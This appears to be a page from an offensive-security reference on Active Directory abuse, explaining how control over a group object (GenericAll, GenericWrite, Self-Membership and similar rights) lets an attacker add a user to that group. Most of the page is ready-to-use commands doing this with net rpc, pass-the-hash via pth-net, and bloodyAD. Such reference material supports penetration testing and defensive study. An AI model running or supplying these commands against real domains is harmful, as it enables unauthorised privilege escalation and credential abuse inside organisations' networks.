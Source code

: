 # AddMember

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights` or `Self-Membership`, over the target group.



{% code title="Net tool" overflow="wrap" %}
```bash
# With net and cleartext credentials (will be prompted)
net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER" -S "$DC_HOST"

# With net and cleartext credentials
net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"$PASSWORD" -S "$DC_HOST"

# With Pass-the-Hash
pth-net rpc group addmem "$TargetGroup" "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
```
{% endcode %}

{% code title="BloodyAD" overflow="wrap" %}
```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add groupMember "$TargetGroup" "$TargetUser"
```
{% endcode %}
